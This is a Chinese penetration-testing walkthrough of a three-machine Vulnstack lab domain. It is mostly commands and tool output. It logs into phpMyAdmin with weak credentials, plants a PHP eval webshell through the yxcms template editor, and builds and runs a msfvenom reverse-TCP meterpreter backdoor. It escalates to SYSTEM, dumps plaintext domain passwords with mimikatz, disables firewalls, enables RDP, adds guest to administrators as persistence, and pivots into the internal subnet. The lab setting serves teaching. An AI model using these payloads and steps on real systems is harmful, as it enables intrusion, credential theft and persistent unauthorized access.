参考链接：[漏洞详情 (qiyuanxuetang.net)](http://vulnstack.qiyuanxuetang.net/vuln/detail/2/)

## 环境搭建

环境介绍：三台机器，Win7是对外的web机，Win2003和Win2008是内网机器

网络拓扑：



虚拟机网络配置：




Win7中确认防火墙状态




将三台靶机关机创建快照，然后全部启动（Kali也要），并启动Win7的PHP和MySQL。




至此，环境搭建完毕


## 信息收集

在Kali中用nmap扫Win7，可以扫到80和3306端口处于启用状态




登陆网站，发现phpStudy探针，暴露大量隐私信息




3306端口的MySQL也可见，使用弱口令`root`, `root`也成功登陆




存在问题：

```
HTTP明文传输
服务器指纹泄露（系统、Apache、PHP版本）
phpInfo信息泄露
MySQL数据库弱口令
MySQL数据库口令爆破
phpStudy后门（待检测）
```


### 目录扫描

#### 法一：御剑扫一下后台



#### 法二：Dirsearch.py

[maurosoria/dirsearch: Web path scanner (github.com)](https://github.com/maurosoria/dirsearch)

```shell
┌──(root㉿kali)-[/home/kali/Documents/Git/dirsearch]
└─# python3 dirsearch.py -u 192.168.220.138  

  _|. _ _  _  _  _ _|_    v0.4.2.8                                                   
 (_||| _) (/_(_|| (_| )                                                              
                                                                                     
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 11374

Output File: /home/kali/Documents/Git/dirsearch/reports/_192.168.220.138/_22-08-13_07-04-34.txt

Target: http://192.168.220.138/

[07:04:34] Starting:                                                                 
[07:04:37] 403 -  211B  - /%3f/                                             
[07:04:37] 403 -  215B  - /%C0%AE%C0%AE%C0%AF                               
[07:04:37] 403 -  210B  - /%ff                                              
[07:04:40] 403 -  220B  - /.ht_wsr.txt                                      
[07:04:40] 403 -  223B  - /.htaccess.bak1                                   
[07:04:40] 403 -  225B  - /.htaccess.sample
[07:04:40] 403 -  223B  - /.htaccess_orig
[07:04:40] 403 -  221B  - /.htaccess_sc
[07:04:40] 403 -  222B  - /.htaccessOLD2
[07:04:40] 403 -  221B  - /.htaccessBAK
[07:04:40] 403 -  221B  - /.htaccessOLD
[07:04:40] 403 -  213B  - /.htm
[07:04:40] 403 -  223B  - /.htaccess.orig
[07:04:40] 403 -  223B  - /.htaccess.save
[07:04:40] 403 -  223B  - /.htpasswd_test
[07:04:40] 403 -  219B  - /.htpasswds
[07:04:40] 403 -  220B  - /.httr-oauth
[07:04:40] 403 -  224B  - /.htaccess_extra
[07:04:40] 403 -  214B  - /.html                                            
[07:05:19] 403 -  225B  - /index.php::$DATA                                 
[07:05:32] 200 -   71KB - /phpinfo.php                                                                                               
[07:05:32] 301 -  242B  - /phpmyadmin  ->  http://192.168.220.138/phpmyadmin/                                                        
[07:05:32] 301 -  242B  - /phpMyAdmin  ->  http://192.168.220.138/phpMyAdmin/                                                        
[07:05:33] 200 -   32KB - /phpmyadmin/ChangeLog                                                                                      
[07:05:33] 200 -    2KB - /phpmyadmin/README                                                                                         
[07:05:34] 200 -    4KB - /phpmyadmin/index.php                                                                                      
[07:05:34] 200 -    4KB - /phpmyadmin/                                                                                               
[07:05:34] 200 -    4KB - /phpMyAdmin/                                                                                               
[07:05:35] 200 -    4KB - /phpmyAdmin/                                                                                               
[07:05:35] 200 -    4KB - /phpMyadmin/
[07:05:34] 200 -    4KB - /phpMyAdmin/index.php                             
[07:05:49] 403 -  225B  - /Trace.axd::$DATA                                 
[07:05:54] 403 -  226B  - /web.config::$DATA                                
                                                                             
Task Completed
```


## 指纹识别

### **Whatweb**

```shell
┌──(root㉿kali)-[/home/kali/Documents/Git/dirsearch]
└─# whatweb 192.168.220.138
http://192.168.220.138 [200 OK] Apache[2.4.23], Country[RESERVED][ZZ], Email[admin@phpStudy.net], HTTPServer[Windows (32 bit)][Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45], IP[192.168.220.138], OpenSSL[1.0.2j], PHP[5.4.45], PasswordField[password], Title[phpStudy 探针 2014], X-Powered-By[PHP/5.4.45], X-UA-Compatible[IE=EmulateIE7] 
```

### 御剑Web指纹识别/大禹CMS系统识别

略


## 漏洞分析

根据探测结果尝试访问phpMyAdmin，并使用弱密码`root`, `root` 成功登陆后台

发现一张表 `newyxcms`，CMS为内容管理系统的意思




分辨出网站使用的是yxcms，尝试访问。

然后在公告信息中发现后台用户名和密码




根据提示成功进入管理后台，并发现网站版本为1.2.1

> 如果没有发现密码，可以通过探测 `beifen.rar` 检查网站版本号，然后到网上找该版本号存在的漏洞进行攻击。




在后台“前台模板”模块中发现可以编辑模板，模板通常可以自定义php文件，而如果可以自定义php文件直接就可以上一句话木马了。






## 渗透攻击

嵌入一句话木马`<?php @eval($_REQUEST[666])?>`，然后保存




上面御剑探测时没有探测到info.php在哪，所以到网上找一下yxcms的目录结构

`protected\apps\default\view\`



到蚁剑中右键 添加数据：

`http://192.168.220.138/yxcms/protected/apps/default/view/default/info.php`




到shell里看一下`ipconfig`



查看防火墙状态 `netsh advfirewall show allprofiles`



关闭防火墙 `netsh advfirewall set allprofiles state off`


### 制作并上传木马

#### 制作后门

```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─# msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.220.137 lport=9999 -f exe -o houmen.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: houmen.exe
```

#### 加个壳



#### 上传后门

加壳版和普通版都传，以防万一





#### 监听

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specifi
                                     ed)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp                                                                                       
msf6 exploit(multi/handler) > set lhost 192.168.220.137
lhost => 192.168.220.137                                                                                                             
msf6 exploit(multi/handler) > set lport 9999
lport => 9999                                                                                                                        
msf6 exploit(multi/handler) > show options 
                                                                                                                                     
Module options (exploit/multi/handler):                                                                                              
                                                                                                                                     
   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.220.137  yes       The listen address (an interface may be specified)
   LPORT     9999             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.220.137:9999 

```


到蚁剑中运行



Kali监听响应：

```shell
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.220.137:9999 
[*] Sending stage (200262 bytes) to 192.168.220.138
[*] Meterpreter session 2 opened (192.168.220.137:9999 -> 192.168.220.138:1237 ) at 2022-08-11 06:45:39 -0400

meterpreter > 
```


收集补丁信息

```
meterpreter > run post/windows/gather/enum_patches

[*] Patch list saved to /root/.msf4/loot/20220811064922_default_192.168.220.138_enum_patches_752941.txt
[+] KB2534111 installed on 8/25/2019
[+] KB2999226 installed on 9/15/2019
[+] KB958488 installed on 8/29/2019
[+] KB976902 installed on 11/21/2010
```


收集主机内软件安装信息

```
meterpreter > run post/windows/gather/enum_applications

[*] Enumerating applications installed on STU1

Installed Applications
======================

 Name                                                                Version
 ----                                                                -------
 Everything 1.4.1.877 (x64)                                          1.4.1.877 (x64)
 Microsoft .NET Framework 4 Client Profile                           4.0.30319
 Microsoft .NET Framework 4 Client Profile                           4.0.30319
 Microsoft .NET Framework 4 Extended                                 4.0.30319
 Microsoft .NET Framework 4 Extended                                 4.0.30319
 Microsoft Visual C++ 2008 Redistributable - x64 9.0.30729.6161      9.0.30729.6161
 Microsoft Visual C++ 2008 Redistributable - x86 9.0.30729.4148      9.0.30729.4148
 Microsoft Visual C++ 2008 Redistributable - x86 9.0.30729.6161      9.0.30729.6161
 Microsoft Visual C++ 2013 Redistributable (x86) - 12.0.21005        12.0.21005.1
 Microsoft Visual C++ 2013 x86 Additional Runtime - 12.0.21005       12.0.21005
 Microsoft Visual C++ 2013 x86 Minimum Runtime - 12.0.21005          12.0.21005
 Microsoft Visual C++ 2015-2019 Redistributable (x64) - 14.20.27508  14.20.27508.1
 Microsoft Visual C++ 2015-2019 Redistributable (x86) - 14.20.27508  14.20.27508.1
 Microsoft Visual C++ 2019 X64 Additional Runtime - 14.20.27508      14.20.27508
 Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.20.27508         14.20.27508
 Microsoft Visual C++ 2019 X86 Additional Runtime - 14.20.27508      14.20.27508
 Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.20.27508         14.20.27508
 Mozilla Firefox 69.0.1 (x86 zh-CN)                                  69.0.1
 Mozilla Maintenance Service                                         68.0.2
 Nmap 7.80                                                           7.80
 Notepad++ (32-bit x86)                                              7.7.1
 Npcap 0.9983                                                        0.9983
 OpenVPN 2.4.7-I603                                                  2.4.7-I603
 Python 2.7 (64-bit)                                                 2.7.150
 TAP-Windows 9.21.2                                                  9.21.2
 VMware Tools                                                        11.0.6.15940789
 WinPcap 4.1.3                                                       4.1.0.2980
 WinRAR 5.71 (64-位)                                                  5.71.0
 Wireshark 3.0.4 32-bit                                              3.0.4


[+] Results stored in: /root/.msf4/loot/20220811064952_default_192.168.220.138_host.application_850045.txt
```


> 发现nmap，可以直接利用，对其内网进行扫描
>
> 但是在实际环境当中，目标计算机一般不会自带nmap，所以模拟真实的环境，先把流量代理出来，利用攻击机自身的工具，去对内网进行一个扫描

## 内网渗透

添加路由

```
meterpreter > run autoroute -s 192.168.52.0 255.255.255.0

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 192.168.52.0/255.255.255.0...
[+] Added route to 192.168.52.0/255.255.255.0 via 192.168.220.138
[*] Use the -p option to list all active routes
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.52.0       255.255.255.0      Session 2

```


### ARP扫内网主机

```
meterpreter > run post/windows/gather/arp_scanner rhosts=192.168.52.0/24

[*] Running module against STU1
[*] ARP Scanning 192.168.52.0/24
[+]     IP: 192.168.52.138 MAC 00:0c:29:c1:33:d6 (VMware, Inc.)
[+]     IP: 192.168.52.143 MAC 00:0c:29:bd:35:01 (VMware, Inc.)
[+]     IP: 192.168.52.141 MAC 00:0c:29:1c:44:8e (VMware, Inc.)
[+]     IP: 192.168.52.255 MAC 00:0c:29:bd:35:01 (VMware, Inc.)
```


暂时将handler隐藏到后台

```
meterpreter > background 
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > back
```


### 判断域控

法一：上传nbtscan，扫子网



法二：nmap扫描出的主机端口开放情况判断，192.168.52.138这台主机开启了464端口和389端口




### msf起代理 (nmap失败)

```
msf6 > use auxiliary/server/socks_proxy 
msf6 auxiliary(server/socks_proxy) > show options 

Module options (auxiliary/server/socks_proxy):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   SRVHOST   0.0.0.0          yes       The address to listen on
   SRVPORT   1080             yes       The port to listen on
   USERNAME                   no        Proxy username for SOCKS5 listener
   VERSION   5                yes       The SOCKS version to use (Accepted: 4a, 5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server


msf6 auxiliary(server/socks_proxy) > set srvhost 127.0.0.1
srvhost => 127.0.0.1
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
```

nmap扫不出来，凉了






不过，蚁剑拿到了shell，回到蚁剑用Win7的nmap来扫就行



通过端口情况可以发现两台服务器的135 139 445开放，其均为永恒之蓝 MS17-010 的漏洞特征，因此我们可以尝试使用metasploit进行MS17-010的攻击。


## 权限提升

### 法一：MSF

```
meterpreter > getuid
Server username: GOD\Administrator
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### 法二：使用CS模块 (含渗透)

先将CS服务端开起来

```shell
┌──(root㉿kali)-[/home/kali/Desktop/csrun]
└─# ./teamserver  
[*] Generating X509 certificate and keystore (for SSL)
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[*] ./teamserver <host> <password> [/path/to/c2.profile] [YYYY-MM-DD]

        <host> is the (default) IP address of this Cobalt Strike team server
        <password> is the shared password to connect to this server
        [/path/to/c2.profile] is your Malleable C2 profile
        [YYYY-MM-DD] is a kill date for Beacon payloads run from this server

                                                                                     
┌──(root㉿kali)-[/home/kali/Desktop/csrun]
└─# ./teamserver 192.168.220.137 123456
[*] Will use existing X509 certificate and keystore (for SSL)
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Team server is up on 0.0.0.0:50050
[*] SHA256 hash of SSL cert is: b72145ea2b81b84481d743de0a082e74bd6a942fd5ba06cc35cc35dc8804b90d

```

然后打开CS





创建监听器

> 两个IP都填kali的IP就行



生成后门



选择刚才创建的监听器

> 本处图片仅供参考



生成x64并保存



用蚁剑上传文件，并在蚁剑中的shell将后门运行起来，kali的CS就会有反应




**开始提权：**

> **exe提权**
>
> upload													# 加载exe文件
> shell 文件名 shell "whoami"								# 提权并执行命令

> **提权文件参考**
>
> https://github.com/k8gege/K8tools/ 
>
> https://github.com/SecWiki/windows-kernel-exploits/ 
>
> https://github.com/rsmudge/ElevateKit

导入ElevateKit插件




开多一个监听器



提权







提权成功




## 远程登陆

### 获取密码

#### 法一：MSF

> ps 					# 查看 lsm.exe 进程的 PID
>
> migrate 512	*# 默认是加载32位的系统，所以如果目标主机是64位系统的话,需要将进程迁移到一个64位程序的进程中*
>
> load kiwi		*# 加载kiwi模块* 
>
> creds_all		*# 列举系统中的明文密码*


```bash
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System             x64   0
 244   4     smss.exe           x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 348   328   csrss.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 396   508   svchost.exe        x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\system32\svchost.exe
 404   396   csrss.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 412   328   wininit.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
 448   396   winlogon.exe       x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
 508   412   services.exe       x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
 516   412   lsass.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsass.exe
 524   412   lsm.exe            x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsm.exe
 612   508   svchost.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\svchost.exe
 692   508   svchost.exe        x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\system32\svchost.exe
 792   508   svchost.exe        x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 832   508   svchost.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 860   508   svchost.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\svchost.exe
 984   832   dwm.exe            x64   1        GOD\Administrator             C:\Windows\system32\Dwm.exe
 992   508   svchost.exe        x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\system32\svchost.exe
 1140  508   spoolsv.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1184  508   svchost.exe        x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\system32\svchost.exe
 1212  1516  explorer.exe       x64   1        GOD\Administrator             C:\Windows\Explorer.EXE
 1328  1212  vm3dservice.exe    x64   1        GOD\Administrator             C:\Windows\System32\vm3dservice.exe
 1388  508   openvpnserv.exe    x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\OpenVPN\bin\openvpnserv.exe
 1440  2116  mysqld.exe         x86   1        GOD\Administrator             C:\phpStudy\MySQL\bin\mysqld.exe
 1460  508   VGAuthService.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\VMware\VMware Tools\VMware VGAuth\VG
                                                                             AuthService.exe
 1544  508   svchost.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1576  508   vmtoolsd.exe       x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
 1756  508   SearchIndexer.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\SearchIndexer.exe
 1836  508   svchost.exe        x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\system32\svchost.exe
 1896  508   taskhost.exe       x64   1        GOD\Administrator             C:\Windows\system32\taskhost.exe
 1920  508   svchost.exe        x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\system32\svchost.exe
 1948  508   svchost.exe        x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\system32\svchost.exe
 1976  2116  httpd.exe          x86   1        GOD\Administrator             C:\phpStudy\Apache\bin\httpd.exe
 2052  1212  vmtoolsd.exe       x64   1        GOD\Administrator             C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
 2068  1212  openvpn-gui.exe    x64   1        GOD\Administrator             C:\Program Files\OpenVPN\bin\openvpn-gui.exe
 2116  1212  phpStudy.exe       x86   1        GOD\Administrator             C:\phpStudy\phpStudy.exe
 2124  1212  cmd.exe            x64   1        GOD\Administrator             C:\Windows\system32\cmd.exe
 2180  1976  httpd.exe          x86   1        GOD\Administrator             C:\phpStudy\Apache\bin\httpd.exe
 2396  2708  cmd.exe            x86   1        GOD\Administrator             C:\Windows\SysWOW64\cmd.exe
 2432  508   taskhost.exe       x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\system32\taskhost.exe
 2448  508   wmpnetwk.exe       x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Program Files\Windows Media Player\wmpnetwk.exe
 2496  508   svchost.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 2540  404   conhost.exe        x64   1        GOD\Administrator             C:\Windows\system32\conhost.exe
 2620  404   conhost.exe        x64   1        GOD\Administrator             C:\Windows\system32\conhost.exe
 2684  404   conhost.exe        x64   1        GOD\Administrator             C:\Windows\system32\conhost.exe
 2708  2180  cmd.exe            x86   1        GOD\Administrator             C:\Windows\SysWOW64\cmd.exe
 2884  404   conhost.exe        x64   1        GOD\Administrator             C:\Windows\system32\conhost.exe
 2984  2396  houmen.exe         x64   1        GOD\Administrator             c:\houmen.exe
```

```
meterpreter > migrate 512
[*] Migrating from 2984 to 512...
[-] Error running command migrate: Rex::RuntimeError Cannot migrate into non existent process
```

```
meterpreter > migrate 524
[*] Migrating from 2984 to 524...
[*] Migration completed successfully.
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
```

```
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain  LM                                NTLM                              SHA1
--------       ------  --                                ----                              ----
Administrator  GOD     3cfb20151e7ae02cccf9155e3e7db453  1db9f782898fc137280b588fac868e0b  865b2f37e68a3b8c5af37a0d8c44f95aeb023d9
                                                                                           8
STU1$          GOD                                       f9409788cf55512badac576c9f15ee6d  57d56580669e86b1b07f423540160a275f1bf2f
                                                                                           8

wdigest credentials
===================

Username       Domain  Password
--------       ------  --------
(null)         (null)  (null)
Administrator  GOD     hongrisec@2019
STU1$          GOD     41 bf 55 f8 6e c5 9e 7d 27 6e ea 1e 29 be 7e 99 df 0d b0 bc 39 8b 3a 2a 1f 09 e2 ab 6c 83 f2 28 68 7f b3 57
                        a9 e4 e4 8d 5f 2c 3c 7d 88 dd 52 a9 b4 26 ea 9f 46 74 b2 1d 15 45 81 e0 ea 25 fa a8 ef e5 cd 3f 0d 35 44 b
                       1 af 9c d8 8e e1 31 28 a2 02 1d 2d 5b 3c 01 d2 35 13 8b ff 4f 46 da 4f b7 d5 d4 e6 6b 08 20 c9 4f 46 83 28
                       cc e8 4b cb f3 60 0f fd 7c 1e 1e 2f 1f bb 8a dc f8 5b be d8 b4 d0 cd f9 02 e1 c0 56 23 c7 2d c2 69 76 70 94
                        b5 cb d5 c2 90 98 52 59 1b d5 2a bd bc 08 b0 56 45 69 c3 33 33 4d 00 60 3c 8c 41 b9 c9 00 ef 75 ac 3c 2d 8
                       f cc 4b 90 4a a6 08 e5 4d eb 0a f7 32 d9 81 2e 62 aa 68 65 fd e6 d2 a4 b0 4a 52 fd 63 4f 8b 33 bc 69 65 33
                       a4 c7 3f 4a 37 a5 ce ea ed b5 07 bc 2a 4f b4 4f 3b c0 ca b8 34 d2 1b 47 f7 f9

tspkg credentials
=================

Username       Domain  Password
--------       ------  --------
Administrator  GOD     hongrisec@2019

kerberos credentials
====================

Username       Domain   Password
--------       ------   --------
(null)         (null)   (null)
Administrator  GOD.ORG  hongrisec@2019
stu1$          GOD.ORG  41 bf 55 f8 6e c5 9e 7d 27 6e ea 1e 29 be 7e 99 df 0d b0 bc 39 8b 3a 2a 1f 09 e2 ab 6c 83 f2 28 68 7f b3 5
                        7 a9 e4 e4 8d 5f 2c 3c 7d 88 dd 52 a9 b4 26 ea 9f 46 74 b2 1d 15 45 81 e0 ea 25 fa a8 ef e5 cd 3f 0d 35 44
                         b1 af 9c d8 8e e1 31 28 a2 02 1d 2d 5b 3c 01 d2 35 13 8b ff 4f 46 da 4f b7 d5 d4 e6 6b 08 20 c9 4f 46 83
                        28 cc e8 4b cb f3 60 0f fd 7c 1e 1e 2f 1f bb 8a dc f8 5b be d8 b4 d0 cd f9 02 e1 c0 56 23 c7 2d c2 69 76 7
                        0 94 b5 cb d5 c2 90 98 52 59 1b d5 2a bd bc 08 b0 56 45 69 c3 33 33 4d 00 60 3c 8c 41 b9 c9 00 ef 75 ac 3c
                         2d 8f cc 4b 90 4a a6 08 e5 4d eb 0a f7 32 d9 81 2e 62 aa 68 65 fd e6 d2 a4 b0 4a 52 fd 63 4f 8b 33 bc 69
                        65 33 a4 c7 3f 4a 37 a5 ce ea ed b5 07 bc 2a 4f b4 4f 3b c0 ca b8 34 d2 1b 47 f7 f9
```

> 可得密码：hongrisec@2019


#### 法二：CS



然后再点击"抓取明文密码"即可。


### 启用远程桌面

#### 法一：CMD

```bash
netstat -ano | findstr "3389"						# 查看端口3389是否开启
REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber		# 查看远程端口
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f	# 开启3389端口
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow	# 允许 3389 端口放行
netsh firewall set opmode disable					# Windows Server 2003 系统及之前版本
netsh advfirewall set allprofiles state off			# Windows Server 2003 之后系统版本
```




#### 法二：VMIC (推荐)

> 该方法会自动开启系统远程桌面中的允许远程连接到此计算机并启动默认的3389端口

```
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
```




#### 法三：MSF

##### **Meterpretr enable_rdp模块**

```
run post/windows/manage/enable_rdp 
run multi_console_command -r <FileLocation>				（文件为启用模块后的给的路径，都在/root/.msf4/loot/目录下）
```


```shell
meterpreter > run post/windows/manage/enable_rdp 

[*] Enabling Remote Desktop
[*]     RDP is already enabled
[*] Setting Terminal Services service startup mode
[*]     The Terminal Services service is not set to auto, changing it to auto ...
[*]     Opening port in local firewall if necessary
[*] For cleanup execute Meterpreter resource file: /root/.msf4/loot/20220814082551_default_192.168.220.138_host.windows.cle_346748.txt
meterpreter > 
meterpreter > run multi_console_command -r /root/.msf4/loot/20220814082551_default_192.168.220.138_host.windows.cle_346748.txt
[*] Running Command List ...
[*]     Running command execute -H -f cmd.exe -a "/c sc config termservice start= disabled"
Process 3008 created.
[*]     Running command execute -H -f cmd.exe -a "/c sc stop termservice"
Process 2848 created.
[*]     Running command execute -H -f cmd.exe -a "/c 'netsh firewall set service type = remotedesktop mode = enable'"
Process 1416 created.
```

##### GetGUI模块 (略)


#### 远程登录

在MSF里死活登不进

```
msf6 exploit(multi/handler) > rdesktop 192.168.220.138
[*] exec: rdesktop 192.168.220.138

Core(warning): Certificate received from server is NOT trusted by this sspecific certificate.
```

也确认了上面对Win7的配置没有出错




网上搜了一下，发现 rdesktop 不适用于 WinXP/2003+ (不含XP/2003)




试一下用Win10的RD Client，成功连接，说明确实是 rdsektop 的问题

> 当然，也可以用Linux上的Remmina




## 权限维持

### Guest后门

> 注：应加上域标签，如果完全复制此种方式，只是添加到STU1域

```bash
shell net user									 # 查看本机用户
```



```bash
net user guest /active:yes						 # 激活guest
```

```bash
shell net user guest Aa123456					 # 给Guest用户设置密码
```

```bash
shell net localgroup administrators guest /add    # 将guest加入到管理员中
```

### 添加新用户后门

> 注：应加上域标签，如果按照上面Guest后门的方式，只是添加到STU1域里





然后用RD Client连接即可

### 尴尬之处

两边登录都会互踢

> 还可以采用其它权限维持的方法，比如shift后门、注册表后门、计划后门、白银黄金票据等




## 横向探测

### 法一：MSF (*这里也写了ProxyChains)

> 可跳转至前面的 内网渗透，内容近似。


先拿一个msf shell

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > show options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.220.137  yes       The listen address (an interface may be specified)
   LPORT     9999             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.220.137:9999 
[*] Sending stage (200262 bytes) to 192.168.220.138
[*] Meterpreter session 3 opened (192.168.220.137:9999 -> 192.168.220.138:6500 ) at 2022-08-14 12:45:28 -0400

meterpreter > 
```

添加路由

> 手工添加：run autoroute -s 192.168.21.0/24		#添加路由
> 		 		run autoroute -p									#查看路由
> 自动添加：run post/multi/manage/autoroute

> 查看路由表：run autoroute -p

```
meterpreter > run post/multi/manage/autoroute

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running module against STU1
[*] Searching for subnets to autoroute.
[+] Route added to subnet 169.254.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 192.168.52.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 192.168.220.0/255.255.255.0 from host's routing table.
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   169.254.0.0        255.255.0.0        Session 1
   192.168.52.0       255.255.255.0      Session 1
   192.168.220.0      255.255.255.0      Session 1
   
meterpreter > background 
[*] Backgrounding session 1...
```


然后配置代理

```bash
msf6 exploit(multi/handler) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > show options 

Module options (auxiliary/server/socks_proxy):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   SRVHOST   0.0.0.0          yes       The address to listen on
   SRVPORT   1080             yes       The port to listen on
   USERNAME                   no        Proxy username for SOCKS5 listener
   VERSION   5                yes       The SOCKS version to use (Accepted: 4a, 5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server


msf6 auxiliary(server/socks_proxy) > set srvhost 127.0.0.1
srvhost => 127.0.0.1
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
```


使用msf模块扫描存活主机

> 可见三台

```bash
msf6 auxiliary(server/socks_proxy) > use auxiliary/scanner/netbios/nbname
msf6 auxiliary(scanner/netbios/nbname) > set rhosts 192.168.52.0/24
rhosts => 192.168.52.0/24
msf6 auxiliary(scanner/netbios/nbname) > options 

Module options (auxiliary/scanner/netbios/nbname):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
